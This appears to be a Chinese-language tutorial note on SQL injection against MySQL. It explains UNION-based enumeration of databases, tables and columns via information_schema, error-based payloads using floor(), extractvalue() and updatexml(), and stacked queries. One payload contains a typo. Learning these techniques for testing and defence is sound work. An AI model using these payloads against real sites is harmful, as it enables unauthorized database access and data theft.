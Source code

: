 # 回显注入法--能在页面直接显示结果
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 UNION联合查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: union注入法前提要**知道列数**和**页面能回显**
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号,推荐改为十六进制(hex),记得添加 0x。

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 报错查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 经典报错函数（结合Burpsuite快速获取内容）
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: [floor()](https://blog.csdn.net/liangdongjuan/article/details/78406395)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1
```
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and extractvalue(1, payload)
```sql
and extractvalue(1, concat(0x7e,(select @@version),0x7e)) and updatexml(1,concat(0x23,(select table_name from
information_schema.tables where table_schema='newblog' limit 0,1),0x23),1)
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and updatexml(1,payload,1)
```sql
    and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
```
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 堆叠注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 堆叠查询可以执行多条SQL语句，语句之间以分号(;)隔开
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[堆叠注入实战](https://blog.csdn.net/SouthWind0/article/details/82929895)、[各库堆叠注入](https://www.cnblogs.com/0nth3way/articles/7128189.html)








